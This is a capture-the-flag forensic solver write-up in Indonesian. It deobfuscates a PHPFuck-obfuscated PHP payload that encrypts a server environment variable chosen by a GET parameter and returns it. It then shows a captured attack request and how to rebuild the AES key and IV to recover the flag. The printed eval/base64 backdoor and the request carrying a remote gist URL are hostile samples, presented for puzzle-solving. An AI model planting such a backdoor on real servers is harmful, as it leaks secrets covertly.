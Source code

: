 # Solver

1. Reverse code PHPnya terlebih dahulu untuk mencari tahu behaviour dari payload yang digunakan. Probset menggunakan [PHPFuck](https://github.com/splitline/PHPFuck) untuk mengobfuscate code sederhana seperti ini

```php
echo base64_encode(openssl_encrypt(getenv($_GET["\141"]), "\x41\x45\x53\x2d\62\x35\x36\55\x43\x42\103", md5($_SERVER["\110\x54\124\x50\137\x52\x45\x46\105\122\x45\122"]), OPENSSL_RAW_DATA, str_pad(date("\x64\x48\151\x73"), 16, date("\144\x48\151\x73"))));
```

Dimana code php tersebut akan mengencrypt environment yang diinput pada parameter `a` menggunakan AES mode CBC dan key nya didapat dari hash md5 dari value header `Referer` dan IV nya didapat dari formatting tanggal sebanyak 2 kali. Untuk mendeobfuscate codenya bisa menggunakan [deobfuscate.py](/ara6-ctf-challenges/final/forensic/File%20PCAP%20Sederhana/poc/deobfuscate.py). Output dari deobfuscate akan terlihat sebagai berikut:

```
((c).(r).(e).(a).(t).(e).(_).(f).(u).(n).(c).(t).(i).(o).(n))(...((s).(t).(r).(_).(g).(e).(t).(c).(s).(v))((,).(").(e).(v).(a).(l).(().(b).(a).(s).(e).(6).(4).(_).(d).(e).(c).(o).(d).(e).(().(').(C).(i).(B).(l).(Y).(2).(h).(v).(I).(G).(J).(h).(c).(2).(U).(2).(N).(F).(9).(l).(b).(m).(N).(v).(Z).(G).(U).(o).(b).(3).(B).(l).(b).(n).(N).(z).(b).(F).(9).(l).(b).(m).(N).(y).(e).(X).(B).(0).(K).(G).(d).(l).(d).(G).(V).(u).(d).(i).(g).(k).(X).(0).(d).(F).(V).(F).(s).(i).(X).(D).(E).(0).(M).(S).(J).(d).(K).(S).(w).(g).(I).(l).(x).(4).(N).(D).(F).(c).(e).(D).(Q).(1).(X).(H).(g).(1).(M).(1).(x).(4).(M).(m).(R).(c).(N).(j).(J).(c).(e).(D).(M).(1).(X).(H).(g).(z).(N).(l).(w).(1).(N).(V).(x).(4).(N).(D).(N).(c).(e).(D).(Q).(y).(X).(D).(E).(w).(M).(y).(I).(s).(I).(G).(1).(k).(N).(S).(g).(k).(X).(1).(N).(F).(U).(l).(Z).(F).(U).(l).(s).(i).(X).(D).(E).(x).(M).(F).(x).(4).(N).(T).(R).(c).(M).(T).(I).(0).(X).(H).(g).(1).(M).(F).(w).(x).(M).(z).(d).(c).(e).(D).(U).(y).(X).(H).(g).(0).(N).(V).(x).(4).(N).(D).(Z).(c).(M).(T).(A).(1).(X).(D).(E).(y).(M).(l).(x).(4).(N).(D).(V).(c).(M).(T).(I).(y).(I).(l).(0).(p).(L).(C).(B).(P).(U).(E).(V).(O).(U).(1).(N).(M).(X).(1).(J).(B).(V).(1).(9).(E).(Q).(V).(R).(B).(L).(C).(B).(z).(d).(H).(J).(f).(c).(G).(F).(k).(K).(G).(R).(h).(d).(G).(U).(o).(I).(l).(x).(4).(N).(j).(R).(c).(e).(D).(Q).(4).(X).(D).(E).(1).(M).(V).(x).(4).(N).(z).(M).(i).(K).(S).(w).(g).(M).(T).(Y).(s).(I).(G).(R).(h).(d).(G).(U).(o).(I).(l).(w).(x).(N).(D).(R).(c).(e).(D).(Q).(4).(X).(D).(E).(1).(M).(V).(x).(4).(N).(z).(M).(i).(K).(S).(k).(p).(K).(T).(s).(g).(').()).()).(;).(")))()
```

Jika dirapihkan maka outputnya akan seperti ini

```
(create_function)(...(str_getcsv)(,"eval(base64_decode('CiBlY2hvIGJhc2U2NF9lbmNvZGUob3BlbnNzbF9lbmNyeXB0KGdldGVudigkX0dFVFsiXDE0MSJdKSwgIlx4NDFceDQ1XHg1M1x4MmRcNjJceDM1XHgzNlw1NVx4NDNceDQyXDEwMyIsIG1kNSgkX1NFUlZFUlsiXDExMFx4NTRcMTI0XHg1MFwxMzdceDUyXHg0NVx4NDZcMTA1XDEyMlx4NDVcMTIyIl0pLCBPUEVOU1NMX1JBV19EQVRBLCBzdHJfcGFkKGRhdGUoIlx4NjRceDQ4XDE1MVx4NzMiKSwgMTYsIGRhdGUoIlwxNDRceDQ4XDE1MVx4NzMiKSkpKTsg');"))()
```

2. Setelah peserta mengetahui behaviour payloadnya, maka tinggal mendecrypt output tiap environment. Sebagai contoh

```
GET /a.php?url=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2F5a7fce77ff3f3da30b14d9ac9482b624%2Fraw%2Fcc7694799650ac10da47623bd5a1ab8971fae1ef%2Fgistfile1.txt&a=FLAG46 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: keep-alive
Host: 178.128.61.208:8181
Cache-Control: public, max-age=31536000
Accept-Language: fr-FR,fr;q=0.8,en-US;q=0.5,en;q=0.3
Upgrade-Insecure-Requests: 1
Referer: https://duckduckgo.com/


HTTP/1.1 200 OK
Host: 178.128.61.208:8181
Date: Thu, 23 Jan 2025 05:29:10 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-type: text/html; charset=UTF-8

6rIMCvtIOg61WdXpG2YdRA==
```

Jika dilihat pada request diatas, keynya bisa didapat dari header referer yaitu: `md5sum('https://duckduckgo.com/')` dan hasilnya adalah `168ce875a2188cce97924a11f6a918df`. Dan yang terakhir ivnya bisa didapat dari header date yaitu `23 05 29 10` dan double hasilnya untuk mendapatkan iv yaitu `2305291023052910`

![example output](output.png)

Ulangi langkah diatas untuk tiap character